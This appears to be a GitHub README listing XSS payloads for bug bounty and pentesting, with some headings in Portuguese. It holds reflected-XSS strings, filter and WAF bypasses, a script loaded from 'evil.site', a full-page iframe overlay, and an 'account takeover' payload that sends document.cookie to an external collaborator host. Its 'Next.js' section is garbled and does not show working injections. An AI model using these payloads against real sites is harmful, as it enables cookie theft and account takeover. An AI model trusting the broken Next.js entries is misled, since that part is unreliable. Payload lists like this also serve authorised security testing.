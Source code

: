 # XSS-types

## Melhores Payloads de XSS para Bug Bounty/Pentest

Abaixo está payloads de XSS altamente eficaz para ser usado durante testes de segurança e caça de bugs.

![JavaScript](https://img.shields.io/badge/JavaScript-F7DF1E?style=for-the-badge&logo=javascript&logoColor=black)

## XSS Payloads

### Reflected XSS
```javascript
 `<button onClick="alert('xss')">submit</button>`
 `<Img%20Src=OnXSS%20OnError=confirm(1337)>`
 `<Img%20Src=OnXSS%20OnError=confirm(document.cookie)>`
 `”/>&_lt;_script>alert(1)&_lt;/scr_ipt>”/> stored`
 `abc`;return+false});});alert\`xss\`;</script>`
 `abc%60%3breturn+false%7d%29%3b%7d%29%3balert%60xss%60;%3c%2f%73%63%72%69%70%74%3e`
 `\`;(alert)();//`
 `=[̕h+͓.＜script/src=//evil.site/poc.js>.͓̮̮ͅ=sW&͉̹̻͙̫̦̮̲͏̼̝̫́̕`
 `<img src="xxxORxxx" onerror=alert('XSS')>`
 `x#12345<img src=x onerror=alert(1)>`
```
### Reflected XSS Example
```javascript
    <img src/onerror=prompt(document.cookie)>
```
### Bypass Techniques
```javascript
 `%27/confirm?.(%27BlackLine CH %27)/%27`
 `<img src="X" onerror=top
 `<input accessw']['one'+'rror']=alert;throw 1337;">`
 `"%2Bself[%2F*foo*%2F'alert'%2F*bar*%2F](self[%2F*foo*%2F'document'%2F*bar*%2F]['domain'])%2F%2F"`
 `/login?ReturnUrl=javascript:1&ReturnUrl=%2561%256c%2565%2572%2574%2528%2564%256f%2563%2575%256d%2565n%2574%252e%2564%256f%256d%2561%2569%256e%2529`
 `<a/href="j%0A%0Davascript:{var{3:s,2:h,5:a,0:v,4:n,1:e}='earltv'}[self][0][v+a+e+s](e+s+v+h+n)(/infected/.source)" />click`
```

### Amazon WAF Bypass
```javascript
 `<details x=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:2 open ontoggle="prompt(document.cookie);">`
```
## Lesser-Known XSS Payloads for Next.js

### Dynamic CSS Injection
```html
<div style={background-color: ${Math.random().toString(36).substr(2, 10)}}>XSS</div>
```

### CSS Variable Injection
```javascript
<div style={--var: ${Math.random().toString(36).substr(2, 10)}}>XSS</div>
```
### Object Literal Injection
```javascript
<div style={position: ${Math.random().toString(36).substr(2, 10)}}>XSS</div>
```
### CSS Flexbox Injection
```javascript
<div style={display: flex; justify-content: ${Math.random().toString(36).substr(2, 10)}}>XSS</div>
```
### Unicode Character Injection
```javascript
<div style={font-family: ${Math.random().toString(36).substr(2, 10)}}>XSS</div>
```
### Dynamic Font Injection
```javascript
<div style={font-family: ${Math.random().toString(36).substr(2, 10) + 'px'}}>XSS</div>
```
### CSS Animation Injection
```javascript
<div style={animation: ${Math.random().toString(36).substr(2, 10)}}>XSS</div>
```
### Web Font Injection
```javascript
<div style={font-family: ${Math.random().toString(36).substr(2, 10) + '-webfont'}}>XSS</div>
```
### CSS Grid Injection
```javascript
<div style={display: grid; grid-template-columns: ${Math.random().toString(36).substr(2, 10)}}>XSS</div>
```
### CSS Transform Injection
```javascript
<div style={transform: ${Math.random().toString(36).substr(2, 10)}}>XSS</div>
```
### SQL Injection Example
```javascript
    <font color="red">ERROR 1064 (42000): You have an error in your SQL syntax;</font>
```

### Phishing / Clickjacking (IFrame Injection)
```javascript
<iframe src="https://www.cia.gov/" style="border: 0; position:fixed; top:0; left:0; right:0; bottom:0; width:100%; height:100%"></iframe>
```
### Account Takeover (ATO)
```javascript
<img src=x onerror="document.location='http://o0p70yehe4avf6728g095671asgj49sy.oastify.com?c='+document.cookie;">
```
### Other XSS Examples
```javascript
    <img src=x onerror=alert(document.cookie)>
    <body onload=alert(document.cookie)>
    <div onclick="alert(document.cookie)">Click me!</div>
    <svg onload="alert(document.cookie)"><circle cx="0" cy="0" r="0"></circle></svg>
    <input type="text" onfocus="alert(document.cookie)">
    <a href="#" onmouseover="alert(document.cookie)">Hover me!</a>
    <input type="text" oninput="alert(document.cookie)">
    <button onclick="alert(document.cookie)">Click me!</button>
```

# **By**: Ivarsatierf


